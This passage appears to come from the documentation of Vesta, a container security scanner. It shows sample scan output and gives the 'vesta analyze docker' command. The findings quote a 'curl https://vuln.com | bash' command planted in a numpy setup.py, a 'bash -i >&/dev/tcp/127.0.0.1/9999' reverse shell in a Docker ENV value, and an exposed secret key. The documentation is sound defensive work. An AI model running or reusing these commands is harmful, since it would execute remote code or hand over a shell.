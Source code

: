 ```bash
+-----+--------------------+-----------------+------------------+-------+----------+------------------------------------------------------------------+
| 211 | python3.6 - numpy  | 1.24.2          |                  |   8.5 | high     | Malicious package is detected in                                 |
|     |                    |                 |                  |       |          | '/usr/local/lib/python3.6/site-packages/numpy/setup.py',         |
|     |                    |                 |                  |       |          | malicious command "curl https://vuln.com | bash" are             |
|     |                    |                 |                  |       |          | detected.                                                        |
+-----+--------------------+-----------------+------------------+-------+----------+------------------------------------------------------------------+

Docker Histories:
+----+---------------+----------------------------+-------+-------+--------+--------------------------------+
| ID |     NAME      | CURRENT/VULNERABLE VERSION | CVEID | SCORE | LEVEL  |          DESCRIPTION           |
+----+---------------+----------------------------+-------+-------+--------+--------------------------------+
|  1 | Image History | - / -                      | -     |   0.0 | high   | Confusion value found          |
|    |               |                            |       |       |        | in ENV: 'command' with         |
|    |               |                            |       |       |        | the plain text 'bash -i        |
|    |               |                            |       |       |        | >&/dev/tcp/127.0.0.1/9999 0>&1 |
|    |               |                            |       |       |        | '.                             |
+----+---------------+----------------------------+-------+-------+--------+--------------------------------+
|  2 |               | - / -                      | -     |   0.0 | medium | Docker history has found the   |
|    |               |                            |       |       |        | senstive environment with      |
|    |               |                            |       |       |        | key 'SECRET_KEY' and value:    |
|    |               |                            |       |       |        | 123456.                        |
+----+---------------+----------------------------+-------+-------+--------+--------------------------------+

```

<details><summary>Result</summary></details>

Example of docker config scan, start vesta:

```bash
vesta analyze docker
```
